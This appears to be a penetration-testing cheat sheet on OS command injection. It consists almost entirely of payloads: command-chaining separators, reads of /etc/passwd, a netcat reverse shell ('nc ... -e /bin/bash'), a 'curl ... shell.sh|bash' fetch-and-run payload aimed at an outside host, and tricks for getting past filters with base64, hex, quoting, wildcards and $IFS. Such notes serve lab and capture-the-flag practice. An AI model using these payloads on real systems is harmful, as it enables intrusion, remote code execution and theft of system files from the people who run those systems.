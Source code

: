 # Command Injection

### Manual Testing

```
;
|
&&
```

For example

{% code overflow="wrap" %}
```bash
# You should encode them when sending 
something|id|ifconfig  
something;id;ifconfig
something&id&ifconfig
www.c.gov; cat /etc/passwd
www.c.gov; nc 192.168.142.148 8000 -e /bin/bash

# POST
email=test@test.com;sleep+20&subject=test&message=test
email=test@test.com;ping -c 5 10.10.14.4&subject=test&message=test

# GET
GET/remote_agent.php?
action=polldata&poller_id=;curl+http://10.10.14.39&host_id=1&local_data_ids[]=6HTTP/1.1

# Json format
{"username":"test;id;"} 

# These are special characters that might be blocked already
( ) [ ] { } " , ' ` ; # | \ &
```
{% endcode %}

#### Payloads to execute both commands

{% code overflow="wrap" %}
```bash
ls||id; ls ||id; ls|| id; ls || id # Execute both
ls|id; ls |id; ls| id; ls | id # Execute both (using a pipe)
ls&&id; ls &&id; ls&& id; ls && id # Execute 2º if 1º finish ok
ls&id; ls &id; ls& id; ls & id # Execute both but you can only see the output of the 2º
ls %0A id # %0A Execute both (RECOMMENDED)
```
{% endcode %}

Some Linux specifc payloads

{% code overflow="wrap" %}
```bash
# Some special characters to include 

`ls` # ``
$(ls) # $()
ls; id # ; Chain commands
ls${LS_COLORS:10:1}${IFS}id # Might be useful

# curl
curl 'http://hostname:8338/login' --data 'username=;`id > /tmp/bbq`'
# BURP
host=127.0.0.1&username=`curl${IFS}10.10.14.25/shell.sh|bash`
```
{% endcode %}

For example

```bash
# use `<command>` to execute the shell
# use ${IFS} to represent a 'space' 
host=127.0.0.1&username=`curl${IFS}10.10.14.25/shell.sh|bash`
```

#### Basic filtering bypass

{% code overflow="wrap" %}
```bash
# base64
# encode the command
>echo 'ping -c 5 192.168.142.141' | base64
>cGluZyAtYyA1IDE5Mi4xNjguMTQyLjE0MQo=

# decode the command and run
something|echo cGluZyAtYyA1IDE5Mi4xNjguMTQyLjE0MQo= | base64 -d | bash

# hex stings
# encode the command
echo "cat flag" | tr -d '\n' | xxd -ps -c 200x
# decode the command and run
something| echo 0x63617420666c6167 | tr -d '\n' | xxd -r -p | bash 
```
{% endcode %}

Other interesting filtering bypass

{% code overflow="wrap" %}
```bash
# String concatanation trick to code execution
https://<URL>/?name=hacker"."blah"."blah
https://<URL>/?name=hacker".system("id")."blah

# Single quotation mark bypass
w'h'o'am'I

# Double Quotes Bypass
w"h"o"am"I

# Backslash
c\at fl\ag

# Regular expressioins (Assume / bin/cat: test: is a directory)
/???/?[a][t] ?''?''?''?''`
`/???/?at ????`
`/???/?[a]''[t] ?''?''?''?''

# Use $@ to bypass
who$@ami

# Bypass with wildcards
powershell C:\*\*2\n??e*d.*? # notepad

# From <https://www.fatalerrors.org/a/ping-command-execution-and-bypass.html> 
```
{% endcode %}
